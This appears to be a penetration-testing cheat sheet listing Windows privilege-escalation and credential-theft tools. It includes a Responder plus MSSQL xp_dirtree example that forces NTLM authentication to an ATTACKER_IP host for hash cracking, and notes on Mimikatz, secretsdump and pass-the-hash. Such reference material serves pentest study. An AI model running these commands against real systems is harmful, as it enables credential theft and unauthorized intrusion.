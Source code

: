 ## Tools

### Using responder

Example with mssql:

    sudo responder -I tun0 -v                                              
    mssqlclient.py login:password@IP
    SQL (PublicUser  guest@master)> xp_dirtree \\ATTACKER_IP\\test

Use the hash to crack password

### SysInternals

 - Process Explorer
 - ProcDump
 - [AccessChk](https://learn.microsoft.com/en-us/sysinternals/downloads/accesschk): list accesses specific users or groups have to resources including files, directories, Registry keys, global objects and Windows services.
 - PsService: View security info of a service `PsService.exe security <service name>`

### Others

 - [JuicyPotato](https://github.com/ohpe/juicy-potato): If the user has SeImpersonate or SeAssignPrimaryToken privileges then you are SYSTEM. Doesn't work on Windows Server 2019 and Windows 10 build 1809 onwards.
 - [PrintSpoof](https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/) Windows 10 and Server 2019
 - [RoguePotato](https://github.com/antonioCoco/RoguePotato): Windows Local Privilege Escalation
 - [Mimikatz](https://github.com/ParrotSec/mimikatz):  extract plaintexts passwords, hash, PIN code and kerberos tickets from memory, pass-the-hash, pass-the-ticket or build Golden tickets
   * Use offline to retrieve the NTLM password hash from a LSASS dump
 - [impacket secretsdump.py](https://github.com/fortra/impacket/blob/master/examples/secretsdump.py)
   * Retrieve the hashes of SYSTEM, SAM, and SECURITY from registry hives and do a pass-the-hash attack
 - [Snaffler](https://github.com/SnaffCon/Snaffler) find file shares for sensitive information
 - [WinPeas]() find weaknesses on host
 - Seatbelt:	C# project for performing a wide variety of local privilege escalation checks
 - PowerUp: PowerShell script for finding common Windows privilege escalation vectors that rely on misconfigurations. It can also be used to exploit some of the issues found
 - [SharpUp](https://github.com/GhostPack/SharpUp/): C# version of PowerUp
   = `.\SharpUp.exe audit` to get weak permissions
 - JAWS: PowerShell script for enumerating privilege escalation vectors written in PowerShell 2.0
 - Watson: Watson is a .NET tool designed to enumerate missing KBs and suggest exploits for Privilege Escalation vulnerabilities.
 - Windows Exploit Suggester - Next Generation: WES-NG is a tool based on the output of Windows' systeminfo utility which provides the list of vulnerabilities the OS is vulnerable to, including any exploits for these vulnerabilities. Every Windows OS between Windows XP and Windows 10, including their Windows Server counterparts, is supported

BypassUAC 
